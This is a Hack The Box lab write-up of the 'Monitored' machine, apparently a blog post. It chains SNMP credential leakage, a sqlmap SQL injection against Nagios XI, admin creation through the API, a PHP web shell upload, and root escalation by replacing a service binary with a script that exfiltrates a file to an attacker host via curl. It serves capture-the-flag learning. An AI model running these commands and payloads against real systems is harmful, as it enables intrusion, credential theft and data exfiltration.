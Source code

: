 ```yaml
---
title: HTB Monitored Writeup
author: Elus1nist
layout: post
date: 16 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/d4988810825d26acb2e84ca0ac9feaf4.png
---
```

Welcome! This is my writeup of the new Medium machine from HTB, Monitored. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.248 
```
This gives us the scan results of:

```
Nmap scan report for 10.10.11.248
Host is up (0.082s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `nagios.monitored.htb` and a redirect so a dead end
- Port 389: LDAP - Since we have this service we can utilize ldap search or also assume SNMP and enumerate that
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating SNMP

Enumerating SNMP with `public` community string:
```
snmpwalk -v2c -c public 10.10.11.248
STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc ~~redacted~~"
```
This gives us a set of credentials that can be used to log into - 
https://nagios.monitored.htb/nagios/

Once logged in we can then follow the security advisory and launch an SQL Injection attack against an admin endpoint

---
---
## SQL Injection to dump User data

Using the information from a security advisory, I leveraged SQLMap to dump the backend DB:
```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users
```
| user_id | email | name | api_key | enabled | password | username | 
|---|---|---|---|---|---|---|
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin

We can now interact with the nagios API as an admin user!

---
---
## NagiosXI Admin Pivot

We can now use the nagiosxi API to create a new admin user:
```
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=ElusnAdmin&password=myadmin&name=myadmin&email=myadmin@localhost&auth_level=admin"
```
We can now login to the nagiosxi portal as an admin

*Insert Image here*

---
---
## Setting Up for PHP File Upload

The following steps were taken so as to be 
- Login to /nagiosxi/
- Go to https://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/manage.php
- Upload jpg -> rename to .htaccess -> rename back to test.jpg
- Upload php shell with jpg magic bytes: <?php system($_GET['cmd']); ?>;
- Visit the web shell and get a bash reverse shell
- pop shell as www-data

---
---
## Privilege Escalation Path

As an easy win, I first checked the output of `sudo -l` for commands that could be run as www-data:
```
sudo -l
User www-data may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```

A subsequent search of the linpeas output shows us a writable service executable path:
`/usr/local/nagios/bin/nagios`

---
---
## Privilege Escalation Exploit

### Step 1:

So first we generate a reverse shell executable on the attacker local box `rootrev.sh`:
```
#!/bin/bash
ls_content=$(<"/root/root.txt")
curl -o test "http://10.10.16.44:9001/${ls_content}"
```

### Step 2:
Spin up a python web server (This will be used to fetch stage 1 of the exploit + Recieve data from exfil)
```
sudo python3 -m http.server 9001
```

### Step 3:
Replace nagios executable on target box
```
curl http://10.10.16.44:9001/rootrev.sh -o /usr/local/nagios/bin/nagios
```

### Step 4:
Restart nagios service and gain root flag

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```